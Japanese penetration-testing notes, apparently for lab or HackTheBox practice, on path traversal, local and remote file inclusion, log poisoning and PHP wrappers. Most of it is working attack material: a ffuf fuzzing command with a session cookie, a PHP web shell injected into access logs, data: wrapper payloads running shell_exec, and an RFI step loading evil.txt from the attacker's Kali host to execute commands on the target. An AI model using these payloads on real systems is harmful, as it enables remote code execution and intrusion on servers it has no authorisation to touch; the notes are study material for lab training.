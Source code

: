 ## ## 基本情報
トラバーサルの脆弱性がある場合File Inclusionの脆弱性もある可能性が高い

## ## Travarsal
- URLのクエリ文字とフォーム本文を調べるところから始める。
	↑さらにファイル参照を含む箇所を探す。
- 探索する際に一般的に使用されるファイル
```sh
ffuf -H "Cookie: PHPSESSID=jvjrluq9mao70i7j4upomht27v" -u http://nocturnal.htb/view.php -data "username=hoge&file=FUZZetc/passwd" -w /opt/work/WordLists/PayloadsAllTheThings/File\ Inclusion/Intruders/dot-slash-PathTraversal_and_LFI_pairing.txt:FUZZ -fw 1170 -x http://127.0.0.1:8080
```

### ### LFI
### ### 以下のPHPコードがあった場合にLFIの脆弱性がある。

```php
<?php
$file = $_GET["file"];
include $file; 
?>
```

### ### 悪意のあるファイルを含める方法
1. ファイルをアップロードし、LFIで遷移できるか。
2. ログファイルなどにPHPコードなどの書き込みができるか。

### ### Poisning
- PHPの場合
- 以下のPHPをコードをサーバ側に送り込み、Payloadの箇所の様にブラウザからリクエストを送る。
▼サーバに送る。(access.logに書き込みを行われる。)

```php
' . shell_exec($_GET['cmd']) . '';?>
```

▼Payload
```sh
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### ### PHPラッパー
トラバーサルやLFIの脆弱性をつくために使用できる。
LFIの脆弱性を突く攻撃の際にPHPコードにインジェクションをしようとする、その際に柔軟性を与えてくれる可能性がある。

#### #### ラッパーごとの説明
- data wappers
	URLの一部としてインラインデータを埋め込むことが出来る。
	以下の様な感じでできる。
```sh
http://10.11.0.22/menu.php?file=data:text/plain,hello world
```

![file://C:/Users/alien/AppData/Local/Temp/.B6HJ62/1.png](file://C:/Users/alien/AppData/Local/Temp/.B6HJ62/1.png)
- 悪用コード
```sh
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

![file://C:/Users/alien/AppData/Local/Temp/.B6HJ62/2.png](file://C:/Users/alien/AppData/Local/Temp/.B6HJ62/2.png)

---
## ## RFI
### ### エンドポイント
- すでにLFIが見つかってみる場所
- 以下の様なURLになっている。
	http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt
### ### 攻撃手順
  1. Kaliに以下のテキストファイルを保持させる。
```sh
kali@kali:/var/www/html$ cat evil.txt
<?php echo shell_exec($_GET['cmd']); ?>
```

  2. Kaliのブラウザで以下を実行
```
http://10.11.0.22/menu.php?file=http://10.11.0.4/evil.txt&cmd=ipconfig
```
